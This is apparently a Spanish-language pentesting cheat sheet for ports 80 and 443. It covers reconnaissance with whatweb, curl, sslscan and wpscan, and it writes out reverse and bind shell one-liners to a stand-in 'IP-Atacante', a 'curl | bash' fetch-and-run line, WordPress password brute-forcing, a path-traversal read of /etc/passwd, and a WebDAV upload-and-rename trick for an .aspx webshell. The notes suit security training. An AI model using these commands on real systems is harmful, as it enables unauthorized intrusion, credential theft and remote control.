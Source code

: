 # HTTP ❮❯

Tags: #Web #Puerto #Reconocimiento #Escaneo #CMS #Comandos 

80 - Este puerto es el que se usa para la navegación web de forma no segura HTTP. 

## Codigos de estado 
* 200 -> OK
- 301 -> Moved Permanently (Follow Redirect)
- 401 -> Unauthorized
- 403 -> Forbidden
- 404 -> Not Found

## URL-Encode
* & = %26

Si la versión del servidor HTTP es “**Apache httpd 2.4.46 o HTTP nginx 1.18.0**“, podemos determinar que el sistema está ejecutando una distribución de Ubuntu. El número de versión “**httpd 2.4.46 o nginx 1.18.0**” se refiere a la revisión específica del paquete de SSH en esa distribución de Ubuntu. A partir de esto, podemos identificar el **codename** de la distribución de Ubuntu, que en este caso sería “**Focal**” para Ubuntu 20.04.
Todas estas búsquedas las aplicamos sobre el siguiente dominio:
-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

### Rutas tipicas
**/var/www/html** Ruta tipica de Apache o Nginx
**/opt/blog/server.js** Ruta por default de Node.js
**/wp-admin.php** Es la ruta del panel de autenticacion de WordPress
**/wp-login.php** Es la ruta del panel de autenticacion de WordPress


❯ **Ctrl + u** Para ver el codigo fuente de la pagina web
❯ **Ctrl + r** Recargar la pagina web
❯ **Ctrl + Shift + c** Para inspeccionar el codigo 

❯ **whatweb ❮http://IP❯**  -> Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Mirar la jQuery
- Servidor Web
❯ **whatweb ❮http://IP:PORT❯** -> Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
❯ **whatweb \http://❮IP❯ -v**  v=Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas

❯ **curl ❮IP❯ | bash** Lo que hace Curl es obtener un **index.html** del servidor y despues con el bash haremos que nos interprete la data en bash
❯ **wget \http://❮IP❯/❮File❯** Para poder cargar o descargar un archivo especifico desde una IP


## ReverShell y BindShell
Este comando lo ejecutamos desde la pagina web para hacer una **ReverShell** : 
1) Cuando tenemos Netcat 
2) Cuando no tenemos Netcat
```bash 
❯ nc -e /bin/bash IP-Atacante 443

❯ bash -i >& /dev/tcp/IP-Atacante/443 0>&1
```

Este comando lo ejecutamos desde la pagina web para ponernos en escucha y hacer una **BindShell** :
```bash
❯ nc -nlvp 443 -e /bin/bash
```


# HTTPS ❮❯
443 - Este puerto es también para la navegación web, pero en este caso usa el protocolo HTTPS que es seguro y utiliza el protocolo TLS por debajo.

❯ **openssl s_client -connect ❮IP❯:443** Para conectarnos al openssl e inspeccionar el certificado del puerto 443
❯ **sslscan ❮IP❯:8443** Te da informacion del ssl de la maquina y si detecta alguna vulnerabilidad te la representa, podemos colocar el puerto si no es el comun 443









- **/wp-json/wp/v2/users/** Reporta usuarios validos en la pagina de WordPress en formato Json
- **cat wp-config.php | less** Este archivo suele disponer de credenciales de acceso a la base de datos, file que se encuentra dentro de la maquina victimas y lo miramos en formato de pagina
- Comando -> **wpscan --url <http://URL/>** Detecta vulnerabilidades, pluggins en un wordPress
- Comando -> **wpscan --url <http://URL/> --enumerate u** Enumeras usuarios que puedan existir en un WordPress
- Comando -> **wpscan --url <http://URL/> -U < USER> -P <Dicc.txt>** Aplicas fuerza bruta, en donde colocas el usuario y en este caso el diccionario de las passwd 
	Tmabien podemos usar **wpseku github security scanner**  o **wordpressscan github**, pero la 'mejor' es wpseku 
- Dentro de un WP podemos editar ese template y colocar un comando. Appearance ->Editor -> 404 Template

- /usr/share/davtest/backdoors/**aspx_cmd.aspx**   Ejecutable que al momento de ejecutarse en una pagina Web, nos dara una WebShell

- Comando -> **curl http://< IP> -v** Haremos que nos ejecute un curl para poder ver la cabeceras de la pagina solicitada y su data


- Comando -> **curl -s -X GET "http://< IP>" -I** Miramos las cabeceras de la pagina web (I=i mayuscula,s=silence)
- Comando -> **curl -s -X GET http://< IP>/?p=404** Apuntas a una ruta 404 y haces la peticion
- Comando -> **curl -s -X PUT http://< IP>/file.txt -d @file.txt** Para subir un archivo a una pagina web con un comando a la url que lo indicaremos con el @, este archivo debe tener una extencion especifica y permitida por el webdav. El example.txt en la url es el que debe de tener una extencion permitida.
En este caso para ver mejor el contenido de arriba por Burpsuite, aplicamos el siguiente comando
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd'** Miramos la resuesta por POST de la pagina web, y a nivel de (d=data) le pasamos eso 
	- fileRead.php -> lo buscamos en el BurpSuite en la cabecera de POST
- Comando -> **curl -s -X MOVE -H “Destination:http://< URL>/cmd.aspx” http://< URL>/cmd.txt** Moveremos el archivo que subimos con extension .txt ya que no puede ser interpretado y le aplicaremos un renombramiento colocandole su extrension .aspx y lo haremos con la cabecera destination. Esto no dara una terminal en la web. (s=silence)
